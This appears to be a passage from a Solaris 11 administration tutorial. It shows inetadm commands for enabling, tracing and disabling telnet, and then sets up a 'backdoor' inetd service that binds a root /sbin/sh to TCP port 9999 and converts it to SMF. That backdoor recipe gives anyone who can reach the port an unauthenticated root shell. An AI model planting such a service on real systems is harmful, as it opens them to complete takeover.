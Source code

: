 To enable the `telnet` service, run the following commands:

```
root@solaris11-1:~# inetadm -e svc:/network/telnet:default
root@solaris11-1:~# inetadm | grep telnet
enabled   online         svc:/network/telnet:default
```

As the `telnet` service has several attributes, it is feasible to change them, for example, during a troubleshooting session. For example, in order to enable the `telnet` service to log all its records to the `syslog` service, execute the following commands:

```
root@solaris11-1:~# inetadm -m  svc:/network/telnet:default tcp_trace=true
root@solaris11-1:~# inetadm -l telnet | grep tcp_trace
         tcp_trace=TRUE
```

This is great! We can disable the `telnet` service when it isn't required anymore:

```
root@solaris11-1:~# inetadm -d svc:/network/telnet:default
root@solaris11-1:~# inetadm | grep telnet
disabled  disabled       svc:/network/telnet:default
```

Good! It is time to learn another very interesting and unusual trick in our next example.

Now, our goal is to create a very simple backdoor as a service in the old `inetd.conf` file under `/etc/inet/` and to convert it to SMF. How can we do this? Easy! The first step is to create a service line in the `inetd.conf` file under `/etc/inet/` by running the following command:

```
root@solaris11-1:~# vi /etc/inet/inetd.conf

(truncated output)
backdoor  stream  tcp6  nowait  root  /sbin/sh  /sbin/sh -a
```

Since we have created the mentioned line in the `inetd.conf` file, we have to assign a TCP port to this service in the `/etc/services` file (the last line) by executing the following command:

```
root@solaris11-1:~# vi /etc/services
(truncated output)
backdoor  9999/tcp      # backdoor
```

There is a command named `inetconf` that converts an INET service to an SMF service easily:

```
root@solaris11-1:~# inetconv
backdoor -> /lib/svc/manifest/network/backdoor-tcp6.xml
Importing backdoor-tcp6.xml ...svccfg: Restarting svc:/system/manifest-import
```

To verify that the service was converted to the SMF model as expected, execute the following command:

```
root@solaris11-1:~# svcs -a | grep backdoor
online         20:36:15 svc:/network/backdoor/tcp6:default
```
